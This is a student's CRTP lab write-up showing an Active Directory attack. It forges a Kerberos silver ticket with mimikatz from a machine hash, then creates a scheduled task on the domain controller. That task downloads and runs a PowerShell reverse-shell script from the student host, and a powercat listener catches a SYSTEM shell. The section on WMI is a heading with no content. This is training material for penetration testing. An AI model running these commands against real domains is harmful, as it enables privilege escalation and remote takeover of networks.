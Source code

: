 # CRTP: Hands-On 9

```
• During the additional lab time:
• Try to get command execution on the domain controller by creating silver tickets for:
  – HOST service
  – WMI
```

Index:

  1. [Silver Ticket HOST](#silver-ticket-host)
  2. [Silver Ticket WMI](#silver-ticket-wmi)


## Silver Ticket HOST

Silver ticket for domain controller, should provide managemnt over the HOST service on the domain controller it's posible generate it with the hash of the dcorp-dc machine and with the same technique of the Golden ticket:

```
C:\Windows\system32>C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-719815819-3726368948-3917688648
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 9407a301944bf60d059322952f56718a - rc4_hmac_nt
Service   : HOST
Target    : dcorp-dc.dollarcorp.moneycorp.local
Lifetime  : 5/1/2023 8:33:02 AM ; 5/1/2023 6:33:02 PM ; 5/8/2023 8:33:02 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ dollarcorp.moneycorp.local' successfully submitted for current session

mimikatz(commandline) # exit
Bye!
```
With host privileges, create new scheduled task:

```
C:\Windows\system32>schtasks.exe /create /s dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User162" /TR "powershell.exe -c 'IEX (New-Object Net.webclient).DownloadString(''http://172.16.100.162/Invoke-PowerShellTcp.ps1''')'"
WARNING: The task name "User162" already exists. Do you want to replace it (Y/N)? Y
SUCCESS: The scheduled task "User162" has successfully been created.
```
Listn with Powercat on student machine at port 443 and run the created task:
```
C:\Windows\system32>schtasks.exe /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User162"
SUCCESS: Attempted to run the scheduled task "User162".
```
A new reverse shell should be spawned to the local machine, form the dcorp-dc server:

```
 powercat -l -p 443 -v
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
VERBOSE: Connection from [172.16.2.1] port  [tcp] accepted (source port 52782)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...

Windows PowerShell running as user DCORP-DC$ on DCORP-DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>PS C:\Windows\system32>
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> hostname
dcorp-dc
```



## Silver Ticket WMI


